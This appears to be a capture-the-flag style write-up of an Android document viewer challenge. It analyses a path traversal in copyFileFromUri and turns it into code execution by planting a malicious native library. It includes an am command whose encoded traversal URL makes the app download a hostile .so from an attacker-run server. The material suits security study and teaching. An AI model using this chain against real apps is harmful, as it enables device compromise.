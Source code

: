 # Analysis
1. The app is load and render PDF file that chosen by the user.

2. The application `MainActivity.onCreate` is call 2 function.
![mainactivity](images/main.png)

3. The `handleIntent` is make the application able to received incoming `Intent` with action `android.intent.action.VIEW` and when the user try open PDF file from file manager or other app, this app will able to chose as pdf viewer.
![handleIntent](images/handleIntent.png)

4. The `loadProLibrary` is loaded shared object `libdocviewer_pro.so` inside app path `/data/data/com.mobilehackinglab.documentviewer/files/native-libraries/` and if the shared object is successfully loaded, it will set `proFeaturesEnabled` to `true`.
![loadProLibrary](images/load%20pro%20lib.png)

5. Inside the shared object `libdocviewer_pro.so`, we assumed there is a function named `initProFeatures` that will be called if `libdocviewer_pro.so` is successfully loaded, because there is constructor for this function but not exists in any class.
![native function initProFeatures](images/initProFeatures.png)

6. `handleIntent` function is called function `copyFileFromUri` from class `CopyUtil`, this function is to download file from Uri provided from `Intent` with specified content type `application/pdf` and saved as "download.pdf" if at the end url is not a filename with extension in it.
![handleIntent copyFileFromUri](images/handle%20intent%20and%20load.png)
![copyFileFromUri](images/copyFileFromUrl%20vuln%20code.png)

7. Inside `copyFileFromUri` is called function `CopyUtil$Companion$copyFileFromUri$1` which will created directory if the directory from uri provided from `Intent` is not exists.
![create directory](images/function%20mkdirs.png)

8. Function `copyFileFromUri` is vulnerable to `path traversal` becaused it's not sanitized the Uri path that provided user using `Intent`, which allow attacker to craft uri to download file malicious file.
![vuln path traversal](images/path%20traversal%20vuln.png)

9. Based on the analysis, we know to gained RCE is by creating malicious shared object and download the shared object file using function `copyFileFromUri` which can triggered using `Intent` and write to the path that will loaded by function `loadProLibrary.so`

# Exploitation
1. First time run the application, we can see the application is try to load library `libdocviewer_pro.so`.
![load lib not found](images/load%20pro%20so%20not%20found.png)

2. First created our malicious shared object in `Android Studio` with the code c++ as below.
![android cpp](images/android%20cpp.png)
![android cmake](images/android%20cmake.png)

3. Build the shared object by navigate to Build > Make Project and copy the builded so file into folder `www`.

4. To trigger `Intent` we use `am` command with malicious url that exploit the path traversal.
```sh
am start -a android.intent.action.VIEW -d "http://192.168.188.200:5000/..%2f..%2f..%2f..%2f..%2f..%2f..%2fdata%2fdata%2fcom.mobilehackinglab.documentviewer%2ffiles%2fnative-libraries%2farm64-v8a%2flibdocviewer_pro.so" -t application/pdf
```

5. But first, we create an HTTP server using Python Flask that returns the malicious shared object we just created, regardless of the path requested by the client.
![python server](images/run%20web%20server.png)

6. After run the `am` command in adb shell, chose the app.
![Chose app](images/chose%20app.png)

7. After successfully download our malicious shared object, in adb log will show error render pdf file that navigated to our exploit shared object path, which mean the application is success to download the file and write to path based on our payload.
![incoming http request](images/web%20server%20received%20request.png)
![error render](images/error%20render.png)

8. Rerun the application, and we'll see our malicious shared object is successfully loaded.
![malicous so loaded](images/malicious%20app%20loaded.png)

9. And check in app path and the system command successfully executed and created file based on our code for the shared object file.
![gained RCE](images/success%20rce.png)
